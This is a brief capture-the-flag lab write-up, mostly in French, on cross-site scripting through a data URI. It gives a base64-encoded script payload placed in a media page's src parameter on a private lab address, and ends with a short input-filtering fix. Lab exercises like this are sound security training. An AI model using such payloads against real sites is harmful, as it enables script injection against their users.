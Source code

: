 # XSS-Data URI Vulnerability

* Data URI is a clever method of inserting tiny files inline in HTML texts. Instead of referring to a file kept locally on the server, the file is delivered as a base64-encoded string of data prefixed by a mime-type inside the URL itself.

## Page
* Url: http://192.168.56.101/?page=media&src=nsa

## Exploitation

* Envoyer un script sur la meme url, en [Base 64][1] example
    ```
    <script>alert(nani)</script>
    ```

    ```
    data:[mediatype][;base64],data

    * mediatype = type de media (text/html)
    --- --- ---
    * ;base64 = preciser que le fichier est livré sous forme de chaîne encodée en base64
    --- --- ---
    * ,data = inclure des données binaires codées en base64.
    ```

 *  Exemple d'execution / Exploit
    ```
    http://192.168.56.105/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydChuYW5pKTwvc2NyaXB0Pg==
    ```


## Solution

* L’idée générale est cependant la même : filtrer les entrées utilisateurs (en commençant par ne faire confiance A RIEN de ce qui vient du navigateur/de l’utilisateur).

* En filtrant les ‘<‘ et ‘>’ ...etc

## Sources

```
https://zofixer.com/what-is-cross-site-scripting-xss-off-domain-data-uri-vulnerability/
```
## FLAG
[-- 🌱 --][2]

[1]: https://www.base64encode.org/
[2]: ./flag.txt